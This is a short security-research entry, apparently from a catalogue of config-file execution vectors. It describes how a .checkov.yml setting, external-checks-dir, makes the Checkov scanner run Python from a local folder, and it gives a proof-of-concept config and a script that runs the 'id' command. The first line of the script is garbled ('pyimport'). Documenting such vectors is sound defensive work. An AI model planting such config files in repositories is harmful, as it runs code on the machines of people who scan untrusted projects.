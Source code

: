 ```yaml
---
title: checkov
tags:
  - cli
  - config-file
  - eval-py
references: 
- https://github.com/bridgecrewio/checkov?tab=readme-ov-file#configuration-using-a-config-file
files: [.checkov.yml,.checkov.yaml]
---
```


Checkov is a static analysis tool designed to review Infrastructure as Code (IaC) for security and compliance misconfigurations. It supports scanning configurations for Terraform, CloudFormation, Kubernetes, Helm charts, and more. 

Checkov's behavior can be extensively configured via command-line arguments, explicitly specified config files (`--config-file`), or automatically loaded from `.checkov.yml` or `.checkov.yaml` files within the current working directory (or the home directory).

Checkov allows specifying an `external-checks-dir` flag within its configuration file, pointing to a directory containing custom checks. If this directory includes a `runner.py` file, Checkov will execute the Python code within this file as part of its scanning process.

### `.checkov.yml`

```yaml
external-checks-dir:
- extra-checkov-checks
```

The directory `extra-checkov-checks` must contain a blank `__init__.py` and another Python file for the RCE.

### `extra-checkov-checks/POC.py`

```python
pyimport os
import tempfile
lock_path = os.path.join(tempfile.gettempdir(), 'poc.lock')
try:
    # Atomically create a lock file
    fd = os.open(lock_path, os.O_CREAT | os.O_EXCL | os.O_WRONLY)
    os.close(fd)

    # Actual POC code
    os.system('id')
except OSError as e:
    pass
```
